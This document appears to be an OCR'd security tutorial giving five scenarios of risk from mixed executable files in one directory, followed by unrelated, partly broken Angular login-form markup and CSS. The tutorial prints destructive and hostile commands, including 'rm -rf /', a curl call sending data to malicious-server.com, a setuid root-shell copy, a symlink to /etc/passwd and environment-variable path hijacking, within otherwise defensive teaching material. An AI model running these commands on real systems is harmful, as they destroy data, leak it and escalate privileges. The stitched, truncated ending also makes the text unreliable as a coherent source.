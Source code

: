 
Here are some scenarios with code snippets to illustrate the potential risks of having diverse executable files (like Python, shell scripts, Java) in the same directory and the vulnerabilities that could arise:

Scenario 1: Unauthorized Execution or Arbitrary Code Execution

Imagine you have a directory with a legitimate Python script, process_data.py, that a trusted process runs automatically every day.

Legitimate Python Script (process_data.py):

# process_data.py
import os

def process():
    print("Processing data...")

if __name__ == "__main__":
    process()

Now, an attacker could add a malicious script in the same directory, named process_data.sh. If the system mistakenly executes process_data.sh instead of process_data.py, it could lead to arbitrary code execution.

Malicious Shell Script (process_data.sh):

#!/bin/bash
# Malicious actions
rm -rf /

Risk: If the system mistakenly executes process_data.sh, it could cause significant damage by deleting system files. A simple typo or configuration error could lead to catastrophic outcomes.

Scenario 2: Dependency Hijacking

Suppose main.py is a script that calls a utility file, helper.py, in the same directory. An attacker could replace helper.py with a malicious file that executes unintended code.

Legitimate Script (main.py):

# main.py
import helper

def main():
    print("Main function running...")
    helper.assist()

if __name__ == "__main__":
    main()

Legitimate Helper File (helper.py):

# helper.py
def assist():
    print("Assisting with the task...")

An attacker could replace helper.py with a malicious version:

Malicious Helper File (helper.py):

# helper.py
import os

def assist():
    # Malicious action
    os.system("curl -X POST -d 'data=steal' http://malicious-server.com")

Risk: main.py assumes helper.py is trusted, so it executes it without any checks. By replacing helper.py, an attacker can hijack this process, leading to data leakage or other malicious actions.

Scenario 3: Symbolic Link Attack

Consider a shell script that copies log files from a directory. If it uses relative paths and doesn’t check for symbolic links, an attacker could replace a target file with a symbolic link to another sensitive file, such as /etc/passwd.

Legitimate Shell Script (backup_logs.sh):

#!/bin/bash

# Copy all logs to backup
for file in *.log; do
    cp "$file" /backup/
done

An attacker could run:

ln -s /etc/passwd important.log

Risk: If the script is run with elevated privileges, /etc/passwd would be copied to /backup/, giving the attacker access to sensitive system information.

Scenario 4: Privilege Escalation via File Permissions

Suppose update_db.py is a Python script that runs with elevated privileges, while db_update.sh is a shell script in the same directory used for logging.

Python Script (update_db.py):

# update_db.py
import os

os.system("./db_update.sh")

If db_update.sh has write permissions for lower-privileged users, an attacker could replace it with a malicious script.

Malicious Shell Script (db_update.sh):

#!/bin/bash
# Malicious action to gain elevated access
cp /bin/bash /tmp/root_shell
chmod +s /tmp/root_shell

Risk: When update_db.py runs, it will execute the malicious db_update.sh script, which could escalate privileges by creating a root shell accessible to the attacker.

Scenario 5: Environmental Variable Poisoning

A Python script, run_task.py, relies on environment variables to set paths.

Python Script (run_task.py):

# run_task.py
import os

task_path = os.getenv('TASK_PATH', './task.sh')
os.system(task_path)

An attacker can manipulate TASK_PATH to point to a malicious script:

export TASK_PATH="/malicious_path/malicious_task.sh"
python run_task.py

Risk: By modifying TASK_PATH, the attacker can redirect run_task.py to execute arbitrary code, which may lead to further security breaches.

Each scenario highlights the importance of verifying file integrity, ensuring proper permissions, and controlling how scripts interact in shared directories. Implementing secure coding practices like path validation, file permissions, and secure handling of environment variables can mitigate these risks.





  }

  // 
///

<div class="login-container">
  <form [formGroup]="loginForm" (ngSubmit)="onSubmit()">
    <h2>Login</h2>
    
    <div class="form-group">
      <label for="username">Username</label>
      <input
['required']">Username is required</small>
        <small *ngIf="username?.errors?.['minlength']">Username must be at least 3 characters</small>
      </div>
    </div>

    <div class="form-group">
      <label for="password">Password</label>
      <input
        id="password"
        type="password"
        formControlName="password"
        class="form-control"
        placeholder="Enter your password"
      />
      <!-- Password validation error messages -->
      <div *ngIf="password?.invalid && (password?.dirty || password?.touched)">
        <small *ngIf="password?.errors?.['required']">Password is required</small>
        <small *ngIf="password?.errors?.['minlength']">Password must be at least 6 characters</small>
      </div>
    </div>

    <button type="submit" [disabled]="loginForm.invalid">Login</button>
  </form>
</div>




///


.login-container {
  width: 300px;
  margin: 50px auto;
  padding: 20px;
  border: 1px solid #ccc;
  border-radius: 5px;
  background-color: #f9f9f9;
}

h2 {
  text-align: center;
}

.form-group {
  margin-bottom: 15px;
}

.form-group label {
  display: block;
  margin-bottom: 5px;
}

.form-control {
  width: 100%;
  padding: 8px;
  border: 1px solid #ccc;
  border-radius: 4px;
}

small {
  color: red;
  display: block;
}

button {
  width: 100%;
  padding: 10px;
  background-color: #007bff;
  color: white;
  border: none;
  border-radius: 4px;
  cursor: pointer;
}

button:disabled {
  background-color: #cccccc;
  cursor: not-allowed;
}
